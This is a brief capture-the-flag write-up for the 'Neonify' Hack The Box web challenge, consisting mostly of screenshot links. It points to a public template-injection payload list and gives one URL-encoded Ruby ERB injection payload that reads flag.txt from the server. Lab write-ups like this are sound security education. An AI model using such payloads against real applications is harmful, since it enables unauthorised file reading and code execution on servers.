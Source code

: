 # Neonify - Writeup
![](https://img.shields.io/badge/web_challenge-htb-28b84f?style=for-the-badge&logo=ruby&logoColor=white)

![start](https://github.com/adminush/Labs-Writeups/assets/58698274/d0ad8f9e-731e-4e95-afbf-99050ae60998)

![regular_ruby_vuln](https://github.com/adminush/Labs-Writeups/assets/58698274/775982fd-b733-480e-9176-214365857b0e)

```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md
```
![good_ssti](https://github.com/adminush/Labs-Writeups/assets/58698274/2cfe22a6-cddb-48b1-9dc5-aac2d06fd050)

```
%3C%25=%20File.open('flag.txt').read%20%25%3E
```
![end](https://github.com/adminush/Labs-Writeups/assets/58698274/529d7bc6-9871-46b5-8914-e63f64118bb3)
